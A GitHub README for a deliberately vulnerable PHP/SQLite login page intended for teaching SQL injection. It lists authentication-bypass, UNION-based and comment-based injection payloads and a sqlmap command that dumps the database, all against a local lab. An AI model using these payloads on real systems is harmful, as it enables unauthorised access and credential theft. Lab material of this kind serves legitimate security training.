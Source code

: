 # TestSiteSQLinjection

> A deliberately vulnerable web application designed for teaching SQL injection techniques. This project provides a simple login page with known SQL injection vulnerabilities for educational purposes.

⚠️ **WARNING:** This application is intentionally vulnerable and is meant for educational use only. DO NOT deploy this in any production environment.

---

## Overview

This project simulates a basic login page with intentional SQL injection vulnerabilities, helping students and professionals learn about:

- Basic SQL injection techniques
- SQLMap usage
- Web application security testing
- Database exploitation

---

## Prerequisites

To run this project, ensure the following are installed:

- PHP 7.0 or higher
- SQLite3
- Python 3.x (for SQLMap)
- SQLMap

---

## Installation

1. Clone the repository:

   ```bash
   git clone https://github.com/ctkqiang/TestSiteSQLinjection.git
   cd TestSiteSQLinjection
   ```

2. Initialize the database:

   ```sql
   -- The following SQL will be automatically executed on the first run
   CREATE TABLE IF NOT EXISTS users (
       id INTEGER PRIMARY KEY,
       username TEXT,
       password TEXT
   );

   -- Sample user data is pre-populated
   -- Including admin and regular user accounts
   ```

---

## Running the Application

1. Start the PHP development server:

   ```bash
   php -S 0.0.0.0:3000
   ```

2. Access the application:

   - Open your browser and navigate to `http://localhost:3000`
   - The login page will be displayed

---

## Testing SQL Injection

### Manual Testing

Try these SQL injection payloads to explore vulnerabilities:

1. **Basic authentication bypass:**

   ```sql
   ' OR '1'='1
   ```

2. **UNION-based injection:**

   ```sql
   ' UNION SELECT username, password, id FROM users--
   ```

3. **Comment-based bypass:**

   ```sql
   admin'--
   ```

### Automated Testing with SQLMap

Run SQLMap to automate SQL injection testing:

```bash
python3 sqlmap.py -u "http://localhost:3000/index.php" --data="username=admin&password=' OR 1=1--" --dbms=sqlite --dump
```

**SQLMap Parameters Explained:**

- `-u`: Target URL
- `--data`: POST data with injection points
- `--dbms`: Specify database type (SQLite)
- `--dump`: Retrieve database contents

---

## Success Indicators

When successfully exploited, the application will:

1. Log "hacked" to the browser console
2. Display retrieved user information
3. Show successful login messages

---

## Database Structure

The application uses SQLite with the following schema:

```sql
users
├── id (INTEGER PRIMARY KEY)
├── username (TEXT)
└── password (TEXT)
```

The database is pre-populated with test accounts, including:

- **Regular Users:** john.doe, jane.smith, etc.
- **Admin Users:** admin/admin123, admin/secretpass123

---

## Security Notice

This application contains intentional vulnerabilities, such as:

- Unescaped SQL queries
- Direct user input in SQL statements
- Plain text password storage
- No input sanitization

**DO NOT:**

- Use this code in production
- Deploy this on a public server
- Use real credentials or sensitive data

---

## Educational Goals

By using this project, you will learn:

1. How SQL injection vulnerabilities occur
2. Methods to identify SQL injection points
3. Using automated tools for security testing
4. Understanding database structure through exploitation
5. The importance of proper input sanitization

---

## Contributing

Contributions are welcome! You can help by:

- Adding new vulnerabilities for testing
- Improving documentation
- Creating additional learning resources
- Adding more test cases

---

### Want to Hack Like a Pro?

🚀 I've distilled 10 years of expertise into one powerful eBook. Learn advanced techniques, practical examples, and step-by-step commands to master SQL injection with SQLMap.

[Purchase Now](https://ko-fi.com/s/5ad8a06662) and start your journey today!

#sqlinjection #hacking #cybersecurity #ethicalhacking #ebook
